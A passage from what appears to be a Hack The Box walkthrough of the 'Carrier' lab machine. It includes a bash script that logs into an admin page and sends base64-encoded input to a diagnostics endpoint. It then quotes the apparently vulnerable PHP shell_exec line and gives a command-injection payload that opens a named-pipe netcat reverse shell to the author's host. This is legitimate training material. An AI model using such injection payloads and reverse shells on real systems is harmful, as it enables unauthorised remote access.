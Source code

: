 <a class="image-popup">
![939c5bd9.png](/assets/images/posts/carrier-htb-walkthrough/939c5bd9.png)
</a>

Hmm. Something funky is going on here.

With that in mind, I wrote a bash script to investigate what's going with the **Diagnostics** page.

<div class="filename"><span>diag.sh</span></div>

```bash
#!/bin/bash

HOST=10.10.10.105
SERIAL=NET_45JDX23
ECHO="$(echo $@ | base64)"

# login
curl -c cookie \
     -d "username=admin&password=$SERIAL" \
     http://$HOST/

# prettify output
curl -s \
     -b cookie \
     --data-urlencode "check=$ECHO" \
     http://$HOST/diag.php \
| xmllint --xpath "//p" --recover - 2>/dev/null \
| sed -r -e 's/></>\n</g' \
| sed -r -e 's/^<p>//' -e 's/<\/p>$//' -e '1d'

echo

rm -f cookie
```

<a class="image-popup">
![e14a8063.png](/assets/images/posts/carrier-htb-walkthrough/e14a8063.png)
</a>

I see what's going on here. There's PHP code that does something like this.

```php
shell_exec("bash -c ps waux | grep " . base64_decode($_POST['check']) . " | grep -v grep");
```

If I input something like this, I should get a shell, right? Let's try it out.

```
--; rm -rf /tmp/p; mknod /tmp/p p; /bin/sh 0</tmp/p | nc 10.10.13.52 1234 > /tmp/p
```


[1]: https://www.hackthebox.eu/home/machines/profile/155
[2]: https://www.hackthebox.eu/home/users/profile/9267
[3]: https://www.hackthebox.eu/